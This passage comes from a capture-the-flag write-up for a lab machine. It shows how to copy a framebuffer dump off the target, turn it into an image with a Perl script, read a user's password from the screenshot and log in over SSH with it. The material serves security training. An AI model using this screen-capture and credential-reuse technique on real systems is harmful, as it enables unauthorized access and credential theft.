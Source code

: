 Then on the attack machine download _fb0.raw_.

```text
scp moshe@10.10.10.73:/tmp/fb0.raw .
```

Download the following script and save it in the file [raw2png](https://reboare.gitbooks.io/booj-security/content/general-linux/privilege-escalation.html).

```text
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

The _pnmtopng_ package is not installed by default on kali, so you might need to install it using the following command.

```text
apt-get install pnmtopng
```

Run the script to convert _fb0.raw_ to a png image.

```text
./raw2png 1176 885 < fb0.raw > fb0.png
```

Open up the image.

![](https://miro.medium.com/max/661/1*j0XA1HTOcU8Ljbg6g5klXw.png)

We got lucky! It looks like we grabbed the screen where the _yossi_ user was changing his password to ‘_MoshePlzStopHackingMe!_’. Let’s try and SSH into _yossi’s_ account using this password.

```text
root@kali:~/Desktop/htb/falafel# ssh yossi@10.10.10.73
yossi@10.10.10.73's password:                                                        
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)                   
                                                                                     
 * Documentation:  https://help.ubuntu.com                                           
 * Management:     https://landscape.canonical.com                                   
 * Support:        https://ubuntu.com/advantage                                      
                                                                                     
0 packages can be updated.                                                           
0 updates are security updates.
```
